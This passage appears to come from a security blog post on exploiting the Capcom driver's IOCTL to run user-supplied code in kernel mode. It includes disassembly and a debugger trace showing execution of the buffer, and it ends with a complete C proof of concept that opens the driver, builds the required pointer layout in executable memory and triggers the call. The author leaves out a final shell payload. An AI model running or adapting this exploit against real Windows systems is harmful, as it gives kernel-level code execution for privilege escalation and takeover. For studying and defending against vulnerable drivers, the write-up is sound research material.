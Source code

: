 The above sets rcx to be our data and then bluescreens :D.

If we check the disassembly again:
```
mov     rax, [rsp+48h+arg_0]
mov     rcx, [rsp+48h+arg_0]
cmp     [rax-8], rcx
```

We can see that the 8 bytes before our buffer have to point to the buffer. We can use some pointer magic to do this:
```c
    PBYTE buffer = VirtualAlloc(0, 16, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    *(PULONG_PTR)buffer = (ULONG_PTR)(buffer + 8);
    *(PULONG_PTR)(buffer + 8) = 0x4141414141414141;

    ULONG_PTR target = (ULONG_PTR)(buffer + 8);

    if (!DeviceIoControl(hDriver, ioctl, &target, 8, &outputbuffer, 4, &dwbytesreturned, NULL)) {
        printf("[!] DeviceIoControl failed %lu\n", GetLastError());
    }
```

Then rerunning shows that we are executing the bytes at rcx / our input buffer:
```
kd> t
capcom+0x573:
fffff801`240f0573 ff542428        call    qword ptr [rsp+28h]
kd> t
000001ae`43380008 41              ???
```

Instead of getting popping calc or getting shells I'm going to stop as I'm planning on covering all that in a later blog in detail.


## Code POC
```c
int main() {
    DWORD ioctl = 0x0AA013044;
    HANDLE hDriver = CreateFileA("\\\\.\\Htsysm72FB", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	if (hDriver == INVALID_HANDLE_VALUE) {
        printf("[!] Could not open handle to driver. Are you admin?\n");
        return -1;
    }

    DWORD dwbytesreturned = 0;
    DWORD outputbuffer = 0;

    PBYTE buffer = VirtualAlloc(0, 16, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    *(PULONG_PTR)buffer = (ULONG_PTR)(buffer + 8);
    *(PULONG_PTR)(buffer + 8) = 0xcc90909090909090;

    ULONG_PTR target = (ULONG_PTR)(buffer + 8);

    if (!DeviceIoControl(hDriver, ioctl, &target, 8, &outputbuffer, 4, &dwbytesreturned, NULL)) {
        printf("[!] DeviceIoControl failed %lu\n", GetLastError());
    }

    return 0;
}
```
